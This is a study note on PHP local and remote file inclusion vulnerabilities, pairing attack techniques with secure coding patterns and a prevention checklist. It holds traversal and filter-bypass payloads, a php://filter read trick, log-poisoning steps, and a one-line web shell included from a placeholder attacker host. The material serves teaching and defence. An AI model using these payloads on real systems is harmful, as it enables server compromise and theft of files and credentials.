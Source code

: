 # 20 - File Inclusion (LFI/RFI)

## Introduction
- File inclusion vulnerabilities occur when an application includes files based on untrusted input. Two main types:
	- Local File Inclusion (LFI): read/execute files on the same server.
	- Remote File Inclusion (RFI): include files from remote servers (executes attacker code).

## Root cause
- Typically caused by insufficient validation or filtering of file path inputs (e.g., `include($_GET['page']);`). Attackers manipulate the path to read sensitive files or include remote code.

## Example (vulnerable PHP)
```php
$file = $_GET['page'];
include($file);
```

If `page=../../../../etc/passwd` the app may expose `/etc/passwd`.

## Risks
- Information disclosure (config, credentials).
- Unauthorized file access/manipulation.
- Remote code execution (RFI) and full server compromise.
- Service disruption.

## LFI techniques & examples
- Path traversal: using `../` sequences to reach files outside the webroot (e.g., `/etc/passwd`).
- Log poisoning / PHP code injection: inject PHP into logs (User-Agent, Referer) and then include log file via LFI to execute code.
- `php://filter` usage: read file contents as base64 to bypass direct restrictions:
	- `php://filter/convert.base64-encode/resource=home.php`
	- Decode the returned Base64 to recover source code.

## Common bypass techniques (from source)
1. Path traversal filter evasion: use `....//` or variants that bypass naive `str_replace('../','',...)` filters (e.g., `....//....//etc/passwd`).
2. URL / double encoding: `%2e%2e%2f` or double-encode (`%252e%252e%252f`) to bypass filters.
3. Approved-path bypass: prepend allowed path then traverse: `./languages/../../../../etc/passwd`.
4. Null byte (%00) (older PHP): terminate appended extensions (e.g., `/etc/passwd%00`) to bypass `.php` suffix checks.

## RFI specifics
- RFI requires remote inclusion to be allowed (PHP `allow_url_include`/`allow_url_fopen` enabled).
- Attack flow: host malicious file (e.g., `shell.php` with `<?php system($_GET['cmd']); ?>`) on attacker server and include it: `?page=https://attacker/shell.php`.
- RFI can lead to immediate remote code execution and credential theft.

## Detection & practical lab notes
- Check dynamic include parameters (e.g., `page`, `lang`) for traversal or remote URL acceptance.
- Try simple traversal: `../../../../etc/passwd` and encoded variants.
- For log poisoning: inject PHP into User-Agent and then request the log via LFI.

## Vulnerable vs secure patterns (PHP)
- Vulnerable:
```php
 $file = $_GET['page'];
 include($file);
```

- Safer patterns:
	- Whitelist allowed files (map keys to filenames).
	- Use fixed/full paths and avoid direct user input in includes.
	- Use `realpath()` and verify the resolved path is inside allowed directory.
	- Disable remote includes: `allow_url_include = Off`, `allow_url_fopen = Off`.

Example (whitelist):
```php
$allowed = ['home' => '/var/www/html/home.php', 'about' => '/var/www/html/about.php'];
$page = $_GET['page'];
if (isset($allowed[$page])) include($allowed[$page]);
else echo 'Invalid page';
```

Example (realpath check):
```php
$base = realpath('/var/www/html/');
$path = realpath($base . '/' . $_GET['page']);
if (strpos($path, $base) === 0) include($path);
else echo 'Invalid path';
```

## Prevention checklist
1. Input validation: whitelist filenames or patterns; disallow user-controlled paths.
2. Use full/fixed include paths; avoid runtime concatenation with raw input.
3. Disable remote file includes in PHP (`allow_url_include`/`allow_url_fopen`).
4. Enforce least privilege on file permissions and ownership.
5. Use `realpath()` and verify includes stay inside the allowed directory.
6. Prevent log poisoning by not writing raw user input into executable logs, and encode logs before writing.
7. Use WAF (e.g., ModSecurity) and custom rules to block LFI/RFI patterns.
8. Keep software patched and perform regular code review and penetration testing.

## Example exploitation checklist
- Try direct traversal, encoded traversal, php://filter, log poisoning, and RFI (only in authorized labs).
- For RFI, confirm `allow_url_include` and `allow_url_fopen` before attempting remote inclusion.



